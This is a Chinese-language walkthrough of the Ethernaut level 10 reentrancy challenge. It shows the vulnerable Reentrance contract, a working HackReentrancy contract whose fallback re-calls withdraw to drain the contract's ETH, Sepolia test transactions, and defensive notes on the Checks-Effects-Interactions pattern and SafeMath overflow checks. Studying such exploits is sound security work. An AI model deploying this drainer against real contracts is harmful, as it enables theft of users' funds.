 # level10 Re-entrancy

## 1. 问题

要求你将合约中所有的eth转出到自己的地址。合约源码如下：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

## 2. 解法

本题是要求你利用合约中的`重入攻击`漏洞来实现偷eth的效果。具体的漏洞在下面几行：

```solidity
if (balances[msg.sender] >= _amount) {
    (bool result,) = msg.sender.call{value: _amount}("");
    if (result) {
        _amount;
    }
    balances[msg.sender] -= _amount;
}
```

当第一次调用 `withdraw` 函数时，if调节如果判断成功，会先调用 `msg.sender.call` 给目标地址转入eth，此时可能触发目标地址的 `fallback` 或 `receive` 函数，函数内可能会继续调用 `withdraw` 函数，形成循环。

通过循环第二次进入时，因为第一次还没有走到 `balances[msg.sender] -= _amount;` 余额扣减，所以二次调用时条件仍然满足，产生重入漏洞。

> [!CAUTION]
> * **CEI** 原则：防止重入攻击，的核心原则是采用检查-影响-交互模式（Checks-Effects-Interactions）
>    1. 先检查是否满足触发条件
>    2. 再更新（余额）等数据状态
>    3. 最后和外部交互

具体操作流程如下：

1. 编写 `HackReentrancy` 合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.12;

interface IReentrance {
    
    function donate(address _to) external payable;

    function balanceOf(address _who) external view returns (uint256 balance);
    
    function withdraw(uint256 _amount) external;
}

contract HackReentrancy {
    
    IReentrance private reentrance;

    constructor(address _reentrance) {
        reentrance = IReentrance(_reentrance);
    }
    
    function hack() external payable {
        // 1. 先充值
        reentrance.donate{value: msg.value}(address(this));
        // 2. 立刻提款，触发fallback
        reentrance.withdraw(msg.value);
    }
    
    fallback() external payable {
        // 1. 判断余额
        uint256 allLeft = address(reentrance).balance;
        uint256 usLeft = reentrance.balanceOf(address(this));
        if(allLeft > usLeft) {
            // 1.a 如果余额超过自己注资的钱，则按照最大量递归
            reentrance.withdraw(usLeft);
        } else if (allLeft > 0) {
            // 1.b 如果余额已经低于自己注资的钱，则可以最后一次全部取走
            reentrance.withdraw(allLeft);
        } 
        // 1.c 如果已经全部被取出来了，则停止递归调用，完成任务
    }
}
```

> [!NOTE]
> 这里我们使用了 `fallback` 实现，也可以通过 `receive` 实现

2. 在remix中编译，部署到sepolia上，[交易地址](https://sepolia.etherscan.io/tx/0x1d27b1e3efc72356ce6b9182d4edb9aad42d17d15e9406c8a41917df3992fbcc)

3. 我们通过查询区块链浏览器，发现这个合约一共有 `0.001 ether = 10^6 gwei`。

4. 调用 `hack` 合约，输入传输的 `msg.value` 为 `4 * 10^5 gwei`, [交易地址](https://sepolia.etherscan.io/tx/0x20c57b5f9719ba0ae04f6d0a42bdad786a817d0fb756313e401e777e68184570):

> [!TIP]
> 基本上这个量级或这个更大的都没问题。
> 具体关于 `msg.value` 值的分析见后续章节


![](../../resources/img/level10/success_hack2.png)

5. 上面的交易记录截图已经能看出来，我们的递归已经生效，且最后一次把剩余的余额尾巴也收走了。

6. 点击 `submit instance`， 提交通过！

## 3. 注意：不要设置过小的 `msg.value`

> [!IMPORTANT]
> 1. solidity限制了函数递归调用不能超过1024层，同时深度还受gas limit等的限制，所以我们需要精确设计递归层数，让他不要因为递归太多导致交易执行失败，结果导致什么都没捞到，反而白白损失手续费
> 2. solidity的这个特性也能推测出：即使遭遇了重入攻击，攻击者为了安全起见，大概率也不会写一个合约，通过一次调用偷走所有的资金。更大概率会通过蚂蚁搬家的方式一点点偷走资金。所以对于Dapp开发者来说，准备好应急预案，留下方便操作的应急接口，也能在出现问题时挽回一点损失。

如果我们设置一个比较小的 `msg.value` 来调用 `hack` 函数([部署地址](https://sepolia.etherscan.io/tx/0xf67e33f785470c0a0a3988f5265148cb53247c16a42094ec275b9bfd3daf4e18))，现象如下：

1. （可选）为了递归过深导致失败，我们先输入 `1.1*10^3 Gwei`, 点击 `hack`, [交易链接](https://sepolia.etherscan.io/tx/0xeeebe2eba293d3d96f06b25c3b242080d806ddbb884cc188e23049bd9852729b)

![](../../resources/img/level10/hack2.png)


执行后，能发现交易gas使用了 70w+，且可以看到internal transaction很多，说明递归次数很多:

![](../../resources/img/level10/failure_inter_txn.png)

2. 此时，如果我们继续操作，再调整成合适的手续费，比如 `5 * 10^5 Gwei` 再此调用 `hack`, [交易链接](https://sepolia.etherscan.io/tx/0xd9bb919227b25c95dae8e15a701b91b36fff7409eb7a2785d2287e51ec27fa4f), 我们会发现交易直接失败了：

![](../../resources/img/level10/failure_inter_txn2.png)


3. 如果我们进一步查询，会发现 `HackEntrancy` 合约在原始 `Reentrance` 合约中的余额已经变成一个非常大的值了：

![](../../resources/img/level10/wrong_balance2.png)

4. 这个是因为原始的 `Reentrance` 合约是 `0.6.x` 版本编译的，他没有做数字的溢出判断，导致第一次调用时，会在 `balances[msg.sender] -= _amount;` 时将我们的余额减成负数（对应的就是一个正很大的整数）。后续我们二次调用 `donate` 时，内部的加法又做了越界校验，导致校验没通过:

```solidity
if (balances[msg.sender] >= _amount) {
    (bool result,) = msg.sender.call{value: _amount}("");
    if (result) {
        _amount;
    }
    balances[msg.sender] -= _amount;
}
```

> [!NOTE]
> 到这里我们可以发现，如果原始合约中 `balances[msg.sender] -= _amount;` 也使用了 `SafeMath` 库做越界校验，也能避免重入攻击


<br/>
<br/>
| [⬅️ level9 King](../level9_king/README.md) | [level11 Elevator ➡️](../level11_elevator/README.md) |
|:------------------------------|--------------------------:|